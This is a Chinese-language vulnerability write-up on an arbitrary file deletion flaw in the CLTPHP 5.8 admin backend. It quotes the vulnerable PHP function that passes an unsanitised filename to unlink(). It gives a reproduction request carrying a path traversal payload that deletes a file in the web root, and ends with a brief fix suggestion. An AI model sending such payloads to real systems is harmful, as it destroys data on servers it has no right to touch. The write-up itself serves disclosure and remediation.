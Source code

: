 CLTPHP 5.8 后台任意文件删除漏洞
===============================

一、漏洞简介
------------

CLTPHP是基于ThinkPHP5开发，后台采用Layui框架的内容管理系统，

二、漏洞影响
------------

CLTPHP 5.8及之前版本

三、复现过程
------------

### 漏洞分析

`app/admin/controller/Database.php` 第221-248行：

    public function delSqlFiles() {  
      $batchFlag = input('param.batchFlag', 0, 'intval');  
      //批量删除  
      if ($batchFlag) {  
        $files = input('key', array());  
      }else {  
        $files[] = input('sqlfilename' , '');  
      }  
      if (empty($files)) {  
    \10.     $result['msg'] = '请选择要删除的sql文件!';  
    \11.     $result['code'] = 0;  
    \12.     return $result;  
    \13.   }  
    \14.  
    \15.   foreach ($files as $file) {  
    \16.     $a = unlink($this->datadir.'/' . $file);  
    \17.   }  
    \18.   if($a){  
    \19.     $result['msg'] = '删除成功!';  
    \20.     $result['url'] = url('restore');  
    \21.     $result['code'] = 1;  
    \22.     return $result;  
    \23.   }else{  
    \24.     $result['msg'] = '删除失败!';  
    \25.     $result['code'] = 0;  
    \26.     return $result;  
    \27.   }  
    \28. }  

在这段函数中，参数sqlfilename未经任何处理，直接带入unlink函数中删除，导致程序在实现上存在任意文件删除漏洞，攻击者可通过该漏洞删除任意文件。

### 漏洞复现

构造URL，成功删除根目录的1.txt文件

    http://www.0-sec.org/admin/Database/delSqlFiles.html

     
    POST: sqlfilename=..\\..\\1.txt

![11.png](resource/CLTPHP5.8后台任意文件删除漏洞/media/rId26.png)

### 修复建议

> 对于要删除的文件，通过正则判断用户输入的参数的格式，看输入的格式是否合法。

